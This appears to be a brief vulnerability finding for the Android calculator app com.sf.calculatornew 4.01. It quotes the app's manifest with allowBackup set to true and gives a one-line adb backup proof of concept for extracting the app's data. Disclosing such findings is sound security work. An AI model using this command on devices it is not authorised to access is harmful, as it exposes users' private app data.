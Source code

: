 # com.sf.calculatornew

com.sf.calculatornew has an Android manifest file that contains an entry with the android:allowBackup attribute set to true. This could be leveraged by an attacker with physical access to the device.

- package: com.sf.calculatornew
- version: 4.01
- url: https://os-android.liqucn.com/rj/9069969605635.shtml

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.sf.calculatornew"
    platformBuildVersionCode="30" platformBuildVersionName="11" android:versionCode="50" android:versionName="4.01" android:compileSdkVersion="30" android:compileSdkVersionCodename="11">
<application
    android:theme="@style/AppTheme" android:label="@string/app_name" android:icon="@drawable/icon_cal_new" android:name="com.stub.StubApp"
    android:allowBackup="true"
    android:supportsRtl="true" android:networkSecurityConfig="@xml/network_security_config" android:roundIcon="@drawable/icon_cal_new" android:appComponentFactory="androidx.core.app.CoreComponentFactory" android:requestLegacyExternalStorage="true">
```

PoC:

```sh
$ adb backup -apk -shared -f <backup-file-name>.ab <package-name>
```
